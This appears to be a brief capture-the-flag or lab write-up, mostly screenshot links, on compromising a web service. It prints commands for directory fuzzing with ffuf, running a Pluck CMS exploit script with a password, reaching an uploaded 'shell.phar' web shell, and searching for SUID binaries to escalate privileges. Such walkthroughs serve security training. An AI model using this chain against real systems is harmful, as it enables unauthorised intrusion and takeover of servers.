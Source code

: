 62.173.140.174:18000

![image](https://user-images.githubusercontent.com/62753044/232470451-dc12ae4f-c0ad-4eea-9330-2185711e60fc.png)

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://62.173.140.174:18000/FUZZ.php

![image](https://user-images.githubusercontent.com/62753044/232470497-7b480313-30a0-4879-a9ca-37ae333b8f88.png)

https://www.exploit-db.com/

![image](https://user-images.githubusercontent.com/62753044/232470532-377d213e-3613-422f-aae1-80e05482bda5.png)

![image](https://user-images.githubusercontent.com/62753044/232470554-d0c0698a-09fd-4736-96dc-aa0d2ddeec97.png)

![image](https://user-images.githubusercontent.com/62753044/232470562-9bc477bf-a32d-4463-941b-c3b7a7cf7306.png)

![image](https://user-images.githubusercontent.com/62753044/232470572-9649635e-19f9-48b5-a5a9-5bb9157d3471.png)

python3 pluck.py 62.173.140.174 18000 liverpool ""

![image](https://user-images.githubusercontent.com/62753044/232470608-b779d938-00d2-4476-831d-eefdd7a53707.png)

http://62.173.140.174:18000/files/shell.phar

![image](https://user-images.githubusercontent.com/62753044/232474643-5a385d43-d50c-435c-8ae2-de6178742d6c.png)

![image](https://user-images.githubusercontent.com/62753044/232470645-8a389a66-130a-4638-a106-f03117839217.png)

find / -user root -perm -4000 -print 2>/dev/null

![image](https://user-images.githubusercontent.com/62753044/232470696-90df487f-fb18-46ce-af41-71edefcf2321.png)

![image](https://user-images.githubusercontent.com/62753044/232472019-89153e96-0a60-4445-bc7f-90ca95d223bb.png)

![image](https://user-images.githubusercontent.com/62753044/232472463-03194abf-c54b-490f-ba9d-fd53099fdb69.png)

![image](https://user-images.githubusercontent.com/62753044/232472878-e784c124-ce40-4b6c-9fe9-442e0331e55d.png)

![image](https://user-images.githubusercontent.com/62753044/232473124-74a86f98-ba36-4f10-9ec0-cb6e76415e2e.png)


